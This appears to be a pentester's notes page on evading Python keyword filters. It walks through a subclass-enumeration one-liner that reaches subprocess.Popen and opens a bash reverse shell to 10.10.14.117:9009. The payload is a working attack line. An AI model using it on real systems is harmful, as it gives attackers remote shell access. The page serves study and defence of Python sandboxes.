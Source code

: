 # Filter Evasion Techniques



## Filter Evasion for Python

### Subclass Enumeration Exploitation

If we can execute some python code, but this code has limitations for some key word, we can byssing this, using local library (subclasses) to create a revshell.

{% code title="Rev Shell in Python" overflow="wrap" %}
```python
().__class__.__base__.__subclasses__()[317](["/bin/bash", "-c", "ls|bash -i >& /dev/tcp/10.10.14.117/9009 0>&1"])
```
{% endcode %}

#### Breakdown of the code:

```python
().__class__.__base__.__subclasses__()
```

* `().__class__` : Retrieves the calss of an empty tuple `()`, which is `<class 'tuple'>`
* `.__base__`: Gets the base class of the `tuple`, which is `object`.
* `.__subclasses__()`: Lists all classes that inherit from `object` (all leaded classes in python)



```python
[317](["/bin/bash", "-c", "ls|bash -i >& /dev/tcp/10.10.14.117/9009 0>&1"])
```

* `[317]` : Accesses tge 318th subclass in the list, that is `subprocess.Popen` subclas, which it allow us to execute the follow command.
* `(["/bin/bash", "-c", "ls|bash -i >& /dev/tcp/10.10.14.117/9009 0>&1"])` : Call the previus class with this list as arguments. This command will create a Rev Shell to the IP and PORT indicated.



